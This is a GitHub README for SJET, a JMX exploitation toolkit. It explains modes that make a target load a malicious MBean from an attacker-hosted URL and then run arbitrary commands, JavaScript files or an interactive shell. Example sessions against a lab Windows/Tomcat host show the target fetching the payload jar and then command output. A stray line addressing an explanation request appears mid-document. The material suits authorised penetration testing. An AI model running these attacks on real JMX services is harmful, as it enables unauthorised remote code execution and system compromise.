 # SJET by siberas

A JMX exploitation toolkit.

## Prerequisites


* [Jython](http://www.jython.org/)

## Usage

SJET implements a CLI interface (using [argparse](https://docs.python.org/3/library/argparse.html)):

```
jython sjet.py targetHost targetPort MODE (modeOptions)
```
Where

* **targetHost** -  the target IP address
* **targerPort** - the target port where JMX is running
* **MODE** - the script mode
* **modeOptions** - the options for the mode selected

### Modes and modeOptions

* **install** - installs the payload in the current target.
	* *payload_url* - full URL to load the payload
	* *payload_port* - port to load the payload
* **command** -  runs the command *CMD* in the targetHost
	* *CMD* - the command to run
* **javascript** - runs a javascript file *FILENAME* in the targetHost
	* *FILENAME* - the javascript to be run
* **shell** - starts a simple shell in targetHost (with the limitations of java's Runtime.exec())

Explain how to run the automated tests for this system

## Example


### Installing the payload in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 install http://192.168.56.1 8888
[+] sjet was brought to you by siberas :)
[+] Starting webserver at port 8888
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  1
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.56.1:8888
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
192.168.56.101 - - [11/Aug/2017 11:16:10] "GET / HTTP/1.1" 200 -
192.168.56.101 - - [11/Aug/2017 11:16:10] "GET /siberas_mlet.jar HTTP/1.1" 200 -
[+] Successfully loaded Siberas:name=payload,id=1
Patricios-MacBook-Pro:sjet preller$
```

### Running the command 'dir' in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 command "dir"
[+] sjet was brought to you by siberas :)
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  2
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: dir
 Volume in drive C has no label.
 Volume Serial Number is E0CE-337D

 Directory of C:\Program Files\Apache Software Foundation\Tomcat 9.0

08/11/2017  01:34 AM    <DIR>          .
08/11/2017  01:34 AM    <DIR>          ..
08/11/2017  01:34 AM                 3 ASDASD.txt
08/10/2017  07:08 AM    <DIR>          bin
08/10/2017  07:08 AM    <DIR>          conf
08/10/2017  07:08 AM    <DIR>          lib
08/02/2017  01:29 PM            58,153 LICENSE
08/11/2017  01:24 AM    <DIR>          logs
08/02/2017  01:29 PM             1,859 NOTICE
08/02/2017  01:29 PM             6,881 RELEASE-NOTES
08/11/2017  02:16 AM    <DIR>          temp
08/02/2017  01:29 PM            21,630 tomcat.ico
08/02/2017  01:29 PM            73,690 Uninstall.exe
08/10/2017  07:08 AM    <DIR>          webapps
08/10/2017  07:08 AM    <DIR>          work
08/11/2017  02:30 AM                17 _____SURELY_A_SAFE_FILE_____.exe
08/11/2017  02:29 AM                17 _____AND_DONT_CALL_ME_SHIRLEY_____.exe
               8 File(s)        162,253 bytes
               9 Dir(s)  124,198,735,872 bytes free

[+] Done
Patricios-MacBook-Pro:sjet preller$
```

### Running the file poc.js in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 javascript "poc.js"
[+] sjet was brought to you by siberas :)
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  4
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing script
None

Patricios-MacBook-Pro:sjet preller$
```
### Running ping in shell mode in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 shell
[+] sjet was brought to you by siberas :)
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  9
[+] Use command 'exit_shell' to exit the shell
>>> ping 127.0.0.1
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: ping 127.0.0.1

Pinging 127.0.0.1 with 32 bytes of data:
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128

Ping statistics for 127.0.0.1:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms


>>>
>>>
[4]+  Stopped                 Jython sjet.py 192.168.56.101 8008 shell
Patricios-MacBook-Pro:sjet preller$
```

## Contributing

Feel free to contribute.

## Authors

* **Hans-Martin Münch** - *Initial idea and work* - [h0ng10](https://github.com/h0ng10)
* **Patricio Reller** - *CLI and extra options* - [preller](https://github.com/preller)

See also the list of [contributors](https://github.com/h0ng10/sjet/graphs/contributors) who participated in this project.

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details.
